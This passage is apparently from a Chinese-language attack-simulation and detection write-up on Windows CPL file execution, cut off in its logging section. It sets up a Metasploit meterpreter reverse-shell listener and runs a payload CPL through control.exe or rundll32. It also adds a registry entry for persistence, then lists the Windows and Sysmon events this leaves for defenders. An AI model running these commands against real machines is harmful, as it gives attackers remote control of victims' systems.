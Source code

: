 将`calc.cpl`传输到靶机（如`C:\Users\zhuli\Desktop\calc.cpl`）。

#### 2.配置攻击机监听
在攻击机上使用Metasploit配置反弹Shell监听：
```bash
msf5>use exploit/multi/handler
msf5 exploit(multi/handler)>set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler)>set LHOST 192.168.126.146
msf5 exploit(multi/handler)>set LPORT 4444
msf5 exploit(multi/handler)>set AutoRunScript migrate -f
msf5 exploit(multi/handler)>exploit
```

#### 3.执行Payload
在靶机上执行：
```cmd
control.exe C:\Users\zhuli\Desktop\calc.cpl
```
或使用Rundll32：
```cmd
rundll32.exe shell32.dll,Control_RunDLL C:\Users\zhuli\Desktop\calc.cpl
```

#### 4.反弹Shell
执行后，`calc.cpl`通过`DllEntryPoint`加载，触发Payload，连接到攻击机的Metasploit监听端口，生成Meterpreter会话。若未成功，检查：
- 防火墙是否阻止出站连接。
- CPL文件是否正确生成（32位/64位兼容）。
- 命令行参数是否正确。

#### 5.注册CPL文件（可选）
将CPL文件注册到控制面板：
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\Cpls" /v "TestCPL" /t REG_SZ /d "C:\Users\zhuli\Desktop\calc.cpl" /f
```
注册后，双击或通过控制面板界面加载CPL文件。

## 测试留痕

### Windows安全日志
- 事件ID 4688：
  - 记录`control.exe`或`rundll32.exe`的执行：
    ```
    进程信息:
      新进程名称:C:\Windows\System32\control.exe
      命令行:control.exe C:\Users\zhuli\Desktop\calc.cpl
      创建者进程名称:C:\Windows\System32\cmd.exe
    ```

### Sysmon日志
- 事件ID 1：
  - 记录进程创建：
    ```
    事件ID:1
    OriginalFileName:control.exe
    CommandLine:control.exe C:\Users\zhuli\Desktop\calc.cpl
    CurrentDirectory:C:\Users\zhuli\
    User:QAX\zhuli
    Hashes:SHA1=6778DAD71C8B06264CF2929A5242D2612D3EB026
    ParentImage:C:\Windows\System32\cmd.exe
    ```
- 事件ID 7：
  - 记录加载的CPL文件：
    ```
